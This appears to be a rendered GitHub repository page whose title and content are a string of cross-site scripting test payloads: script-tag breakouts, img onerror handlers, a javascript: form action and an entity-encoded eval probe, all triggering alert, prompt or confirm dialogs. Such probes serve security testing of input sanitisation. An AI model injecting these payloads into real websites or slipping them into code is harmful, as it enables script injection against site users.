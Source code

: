 # xz-script-iframe-script-alert-0-script-
'">&lt;/script>&lt;/iframe>&lt;script>alert(0)&lt;/script>
'">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->"></script><script>alert(1)</script>"><img/id="confirm&lpar;1&#x29;"/alt="/"src="/"onerror=eval(id&#x29;>'"><img src="http://i.imgur.com/P8mL8.jpg">
